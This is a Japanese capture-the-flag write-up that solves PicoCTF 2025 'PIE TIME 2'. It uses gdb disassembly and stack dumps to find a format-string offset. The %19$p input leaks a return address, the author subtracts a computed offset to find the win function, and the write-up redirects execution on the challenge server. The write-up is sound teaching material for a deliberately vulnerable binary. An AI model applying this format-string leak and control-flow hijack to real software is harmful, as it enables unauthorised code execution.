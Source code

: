 # PicoCTF2025　PIE TIME2

バイナリとソースコードが提供され、nc経由でバイナリを実行し、フラグを取得する。

vunlの中にあるwin関数とmain関数の間の距離を調べる
printfの脆弱性Format String Bugで解く（%pでポインタを表示させて現在のアドレスを知り、そこから逆算してそのprintfとmainの距離を調べる）

gdbを使用、gdb ./vuln

call_functionの中のprintf18行目（printf(" enter the address to jump to, ex => 0x12345: ");）の部分をブレークポイントを置いて実行する、そのあとを動かすと保存されたスタックの内容が変わってしまうため

(gdb) disas mainでmain関数を逆アセンブルすると次のようになる

例
```
(gdb) disas main
Dump of assembler code for function main:
   0x0000555555555400 <+0>:     endbr64
   0x0000555555555404 <+4>:     push   %rbp
   0x0000555555555405 <+5>:     mov    %rsp,%rbp
   0x0000555555555408 <+8>:     lea    -0x166(%rip),%rsi        # 0x5555555552a9 <segfault_handler>
   0x000055555555540f <+15>:    mov    $0xb,%edi
   0x0000555555555414 <+20>:    call   0x555555555170 <signal@plt>
   0x0000555555555419 <+25>:    mov    0x2bf0(%rip),%rax        # 0x555555558010 <stdout@@GLIBC_2.2.5>
   0x0000555555555420 <+32>:    mov    $0x0,%ecx
   0x0000555555555425 <+37>:    mov    $0x2,%edx
   0x000055555555542a <+42>:    mov    $0x0,%esi
   0x000055555555542f <+47>:    mov    %rax,%rdi
   0x0000555555555432 <+50>:    call   0x555555555180 <setvbuf@plt>
   0x0000555555555437 <+55>:    mov    $0x0,%eax
   0x000055555555543c <+60>:    call   0x5555555552c7 <call_functions>
   0x0000555555555441 <+65>:    mov    $0x0,%eax
   0x0000555555555446 <+70>:    pop    %rbp
   0x0000555555555447 <+71>:    ret
End of assembler dump.
```

0x0000555555555441 <+65>:    mov    $0x0,%eaxが
movが関数呼び出しでありmainの一番最後にcall_functionが呼び出されているので、call_functionであることがわかる。

次にrで実行する。ブレークポイントで中断されるのでその状態で$rspでスタックの中身を見る

例

```
(gdb) x/40gx $rsp
0x7fffffffdc20: 0x00007fffffffdc40      0x00007ffff7e38415
0x7fffffffdc30: 0x0000000000000a61      0x00007ffff7faa5c0
0x7fffffffdc40: 0x00007fffffffdc80      0x00007ffff7e2e67f
0x7fffffffdc50: 0x0000000000000000      0x00007fffffffddb8
0x7fffffffdc60: 0x0000000000000001      0x0000000000000000
0x7fffffffdc70: 0x0000000000000000      0x8cc5d5e30889d800
0x7fffffffdc80: 0x00007fffffffdc90      0x0000555555555441
0x7fffffffdc90: 0x00007fffffffdd30      0x00007ffff7dd01ca
0x7fffffffdca0: 0x00007fffffffdce0      0x00007fffffffddb8
0x7fffffffdcb0: 0x0000000155554040      0x0000555555555400
0x7fffffffdcc0: 0x00007fffffffddb8      0x586b5c674feff613
0x7fffffffdcd0: 0x0000000000000001      0x0000000000000000
0x7fffffffdce0: 0x0000000000000000      0x00007ffff7ffd000
0x7fffffffdcf0: 0x586b5c674ccff613      0x586b4c22f68df613
0x7fffffffdd00: 0x00007fff00000000      0x0000000000000000
0x7fffffffdd10: 0x0000000000000000      0x0000000000000001
0x7fffffffdd20: 0x0000000000000000      0x8cc5d5e30889d800
0x7fffffffdd30: 0x00007fffffffdd90      0x00007ffff7dd028b
0x7fffffffdd40: 0x00007fffffffddc8      0x00007ffff7ffe2e0
0x7fffffffdd50: 0x00007fff00000000      0x0000555555555400
```
これの14番目にcall_functionsの関数呼び出しのアドレスがあることがわかる。

printfの仕様として、（この環境では）printfの引数は6個までレジスタから取られ、残りはスタックから取られるから14+6-1（1は重複分）である19番目にmain関数があることがわかる
よって、mainからwinまでの間を引いた分を今のmain関数から引けば、winの関数のメモリの位置がわかる。
```
(gdb) p *win
$1 = {<text variable, no debug info>} 0x55555555536a <win>
(gdb) p 0x0000555555555441-0x55555555536a
$2 = 215
```
あとはこの情報をもとにnc接続したサーバーでwin関数へジャンプさせればよい

```
$ nc rescued-float.picoctf.net 59084
Enter your name:%19$p
0x606c4bf9e441 # <- call_functionsの戻りアドレス
 enter the address to jump to, ex => 0x12345: 0x606c4bf9e36a # <- 0x606c4bf9e441 - 215
You won!
```

参考
https://zenn.dev/tetsurou/articles/6fe4d41a3f6f48#pie-time-2---200pt

https://everykalax.hateblo.jp/entry/2025/03/18/084018#PIE-TIME-2-binary-200